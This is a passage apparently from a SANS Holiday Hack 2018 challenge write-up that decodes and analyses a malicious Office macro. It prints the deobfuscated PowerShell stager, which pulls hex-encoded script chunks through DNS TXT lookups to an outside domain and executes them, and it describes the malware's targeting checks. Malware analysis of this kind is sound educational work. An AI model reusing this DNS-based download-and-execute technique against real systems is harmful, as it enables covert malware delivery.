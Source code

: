 ```
Shell cmd
End Sub
```

Seems like the Powershell payload is base64 encoded and then compressed.

Cyberchef to the rescue with these filters:

```
From_Base64('A-Za-z0-9+/=',true)
Raw_Inflate(0,0,'Adaptive',false,false)
Generic_Code_Beautify()
```

And we get

``` powershell
function H2A($a) {
    $o;
    $a  - split '(..)' | ? {
        $_
    }

    | forEach {
        [char]([convert]::toint16($_, 16))
    }

    | forEach {
        $o = $o  +  $_
    };
    return $o
};
$f = "77616E6E61636F6F6B69652E6D696E2E707331";
$h = "";
foreach ($i in 0..([convert]::ToInt32((Resolve - DnsName  - Server erohetfanu.com  - Name "$f.erohetfanu.com"  - Type TXT).strings, 10) - 1)) {
    $h += (Resolve - DnsName  - Server erohetfanu.com  - Name "$i.$f.erohetfanu.com"  - Type TXT).strings
};
```

We can see the domain there too.

### Getting The Malware
This macro downloads something and then executes it with `iex`. We can make it do the work for us. Modify the last line:

* From: `iex($(H2A $h | Out - string))`
* To: `H2A $h | Out - string`

And it spits out the malware. Using the talk, I cleaned it up and renamed functions:

* https://github.com/parsiya/Parsia-Code/blob/master/sans-holidayhack-2018/cleaned-malware.ps1

### Targets
The malware is targeting specific domains. It does not activate if the computer is not part of the domain `KRINGLECASTLE` or it has something running on `127.0.0.1:8080`. The second check is to prevent double infection because the malware sets up a web server at that address after the infection.
